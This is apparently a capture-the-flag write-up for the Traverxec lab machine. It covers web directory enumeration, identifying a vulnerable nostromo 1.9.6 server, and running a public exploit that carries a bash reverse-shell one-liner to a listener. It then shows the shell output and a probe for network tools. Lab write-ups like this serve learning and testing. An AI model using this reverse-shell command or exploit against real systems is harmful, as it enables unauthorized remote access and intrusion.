 [11:12:38] HTTP Directory enumeration for traverxec.htb:

```
└─$ gobuster dir -w $WLIST -u $RADDR -t 60 --no-error                                                                                                                                            1 ⨯
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.165
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/14 15:32:32 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://10.10.10.165/img/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.10.165/js/]
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.165/lib/]
/icons                (Status: 301) [Size: 314] [--> http://10.10.10.165/icons/]
/reports list         (Status: 501) [Size: 310]
/external files       (Status: 501) [Size: 310]
/style library        (Status: 501) [Size: 310]
/modern mom           (Status: 501) [Size: 310]
/neuf giga photo      (Status: 501) [Size: 310]
```

Found out the webserver is **nostromo 1.9.6**

Checked searchsploit for that version. Yep there is an exploit. 

Had to modify the exploit very slightly (comment out one line. Change one string to `bytes(____,'utf-8')` encoding )

Opened the firewall, set up a listener, and ran the exploit as follows:

```
python3 ./47837.py 10.10.10.165 80 "bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

:tada: Got a reverse shell. 

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
david:x:1000:1000:david,,,:/home/david:/bin/bash
```

```
which nc netcat socat curl wget python perl php
/usr/bin/nc
/usr/bin/netcat
/usr/bin/wget
/usr/bin/python
/usr/bin/perl
```
